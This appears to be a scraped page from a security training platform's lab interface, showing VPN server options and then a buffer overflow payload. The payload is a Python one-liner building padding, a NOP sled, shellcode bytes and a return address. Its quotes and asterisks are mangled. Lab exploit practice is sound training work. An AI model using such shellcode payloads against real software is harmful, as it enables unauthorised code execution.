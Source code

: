 VPN Servers

Warning: Each time you "Switch", your connection keys are regenerated and you must re-download your VPN connection file.

All VM instances associated with the old VPN Server will be terminated when switching to a new VPN server.  
Existing PwnBox instances will automatically switch to the new VPN server.

 Select Vpn Server  eu-academy-1 eu-academy-2 us-academy-1 us-academy-2 us-academy-3 

PROTOCOL

UDP 1337

TCP 443

DOWNLOAD VPN CONNECTION FILE

Start Instance

 / 1 spawns left

Waiting to start...

$(python -c ‘print(“\x55” * (2064–124–95–4) + “\x90” * 124 + "\xdb\xd3\xd9\x74\x24\xf4\xb8\x97\xac\x21\xcc\x5a\x29\xc9\xb1\x12\x31\x42\x17\x03\x42\x17\x83\x55\xa8\xc3\x39\x68\x6a\xf4\x21\xd9\xcf\xa8\xcf\xdf\x46\xaf\xa0\xb9\x95\xb0\x52\x1c\x96\x8e\x99\x1e\x9f\x89\xd8\x76\x2a\x60\x15\x36\x42\x76\x29\x27\xcf\xff\xc8\xf7\x89\xaf\x5b\xa4\xe6\x53\xd5\xab\xc4\xd4\xb7\x43\xb9\xfb\x44\xfb\x2d\x2b\x84\x99\xc4\xba\x39\x0f\x44\x34\x5c\x1f\x61\x8b\x1f" + “**\x2e\xd7\xff\xff**”)'

























